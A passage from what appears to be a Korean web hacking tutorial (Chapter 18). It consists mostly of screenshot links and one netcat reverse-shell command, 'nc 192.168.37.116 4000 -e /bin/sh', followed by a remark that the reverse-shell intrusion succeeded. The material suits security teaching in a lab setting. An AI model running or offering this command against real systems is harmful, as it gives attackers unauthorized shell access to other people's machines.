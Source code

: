 <div align="center" >
<img src="/Art of Web Hacking/Chapter18/018.png" width="520" height="78"> <br>
</div><br>

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">nc&nbsp;<span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">37.</span><span style="color:#308ce5">116</span>&nbsp;<span style="color:#308ce5">4000</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>e&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bin<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>sh</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>


<div align="center" >
<img src="/Art of Web Hacking/Chapter18/019.png" width="520" height="78"> <br>
</div><br>
<div align="center" >
<img src="/Art of Web Hacking/Chapter18/020.png" width="520" height="138"> <br>
</div><br>
- 이렇게 리버스 쉘 침투 가 성공했습니다. 위 스크린샷처럼 가지고 놀거나

<div align="center" >
<img src="/Art of Web Hacking/Chapter18/021.png" width="520" height="238"> <br>
</div><br>